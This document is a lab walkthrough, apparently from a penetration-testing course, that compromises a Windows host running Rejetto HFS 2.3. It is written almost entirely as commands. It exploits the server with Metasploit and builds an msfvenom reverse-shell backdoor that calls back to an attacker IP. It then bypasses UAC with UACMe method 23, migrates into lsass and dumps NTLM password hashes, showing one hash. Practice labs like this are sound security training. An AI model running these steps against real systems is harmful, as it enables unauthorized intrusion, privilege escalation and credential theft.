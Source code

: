 
# Bypassing UAC with UACMe (User Account control)

UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is a part of the local administrator group.

## Convert 32 bit to 64 bit windows
- `sysinfo` __If you get x86/windows it a 32 bit to convert into 64 bit use `pgrep explorer`__
- `pgrep explorer`
- `migrate 2448`

- `net user`
- `net localgroup administrators`



- __`nmap -sV -p 80 demo.ine.local`__

![image1](/Image/UAC/image1.jpg)

__HTTP File Server (HFS) 2.3 is available.__

__Step 1: We will search for an exploit for hfs file server using searchsploit.__

__Command: `searchsploit hfs`__

![image2](/Image/UAC/image2.jpg)

__Step 2: : Rejetto HTTP File Server (HFS) 2.3 is vulnerable to RCE. Exploiting the target server using the Metasploit framework.__

__Commands:__
```
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
```


__Step 3: Checking the current user.__

__Commands:__
```
getuid
sysinfo
```
![image0](/Image/UAC/image0.jpg)

___Step 4: We can observe that we are running as an admin user. Migrate the process in explorer.exe. First, search for the PID of explorer.exe and use the migrate command to migrate the current process to the explorer process.___

__Commands:__
```
ps -S explorer.exe
migrate 2332
```

![image3](/Image/UAC/image3.jpg)


___Step 5: Elevate to the high privilege:___

__Command:__
```
getsystem
```

__We can observe that we do not have permission to elevate privileges.__

__Step 6: Get a windows shell and check if the admin user is a member of the Administrators group.__

__Commands:__
```
shell
net localgroup administrators
```


__The admin user is a member of the Administrators group. However, we do not have the high privilege as of now. We can gain high privilege by Bypassing UAC (User Account Control)__

__We are going to bypass the UAC for admin user with the help of UACMe tool.__

__Step 7: Generating malicious executable using msfvenom and running it on the target machine to gain administrator user privileges.__

> Note: Please make sure that you replace the “10.10.31.2” local IP address with yours.

__Generating malicious executable using msfvenom.__

__Commands:__
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > 'backdoor.exe'

file backdoor.exe
```
![image4](/Image/UAC/image4.jpg)

__The UACMe tool located in "/root/Desktop/tools/UACME/" directory.___

__Step 8: Switch the directory to the user’s temp folder and upload the Akagi64.exe and backdoor.exe executable.__

__Commands:__
```
CTRL + C
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
```
![image5](/Image/UAC/image5.jpg)


__Step 9: Start another msfconsole and run a multi handler.__

__Commands:__
```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.31.2
set LPORT 4444
exploit
```

![image6](/Image/UAC/image6.jpg)




__Step 10: Switch back to the meterpreter and run the Akagi64.exe executable.__

> Note: Please provide the full path of the backdoor executable.

__Commands:__
```
shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```
__We are going to use UACMe method number 23:__
```
    Author: Leo Davidson derivative
    Type: Dll Hijack
    Method: IFileOperation
    Target(s): \system32\pkgmgr.exe
    Component(s): DismCore.dll
    Implementation: ucmDismMethod
```

![image7](/Image/UAC/image7.jpg)

__Once we execute the above command we would expect a meterpreter session.__

![image8](/Image/UAC/image8.jpg)

__We have successfully gained high privilege access. Dump the user hashes.__

__Step 11: Migrate in lsass.exe process.__

__Commands:__
```
ps -S lsass.exe
migrate 496
```
![image9](/Image/UAC/image9.jpg)


__Step 12: Dump the hashes.__

__Command:__

`hashdump`

![image10](/Image/UAC/image10.jpg)

_This reveals the flag to us._

Admin NTLM Hash: `4d6583ed4cef81c2f2ac3c88fc5f3da6`


# another method

  - __`search bypassuac`__
```
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set session<id>
set LPORT 4433
set TARGET windows\ x64
exploit
```
 
